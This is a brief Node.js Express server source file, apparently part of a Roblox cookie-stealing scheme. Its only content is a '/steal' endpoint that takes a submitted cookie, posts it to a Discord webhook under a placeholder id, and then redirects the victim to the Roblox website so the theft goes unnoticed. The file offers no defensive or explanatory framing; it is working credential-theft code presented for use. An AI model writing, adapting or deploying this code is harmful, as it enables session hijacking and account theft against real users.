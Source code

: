 const express = require('express');
const app = express();
app.use(express.json());
app.post('/steal', (req, res) => {
    const cookie = req.body.cookie;
    // Send to Discord webhook
    fetch('https://discord.com/api/webhooks/your-webhook-id', {
        method: 'POST',
        body: JSON.stringify({ content: `Cookie: ${cookie}` }),
        headers: { 'Content-Type': 'application/json' }
    });
    res.redirect('https://www.roblox.com/');
});
app.listen(3000);
